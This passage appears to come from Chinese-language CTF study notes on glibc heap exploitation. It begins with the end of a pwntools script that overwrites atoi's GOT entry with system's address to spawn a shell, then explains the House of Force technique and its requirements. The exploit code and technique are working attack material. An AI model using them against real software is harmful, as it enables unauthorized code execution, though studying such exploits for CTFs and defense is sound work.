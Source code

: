 ```python

change_note(0,len(payload),payload)
del_note(1)

payload = 'A'*24 + p64(atoi_got)

change_note(0,len(payload),payload)

atoi_addr = show_note(0)
system_addr = atoi_addr - atoi_libc + system_libc

payload = p64(system_addr)
change_note(0,len(payload),payload)
sh.sendlineafter('choice:','/bin/sh\x00')

sh.interactive()
sh.close()
```

# House of Force

## 概念

在向top  chunk分割出内存时进行的操作：
```c++
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) //<============
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;// <=================
    set_head(victim, nb | PREV_INUSE | (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```   

控制top  chunk的指针 `av->top` 指向目的地址，当再次需要malloc的时候，就会返回一个目的地址的指针，通过这个指针就可以更改目的地址的内容。   

其实就是地址任意写。   

利用要求是：   
1. 堆溢出的条件
2. 分配大小可以自己定
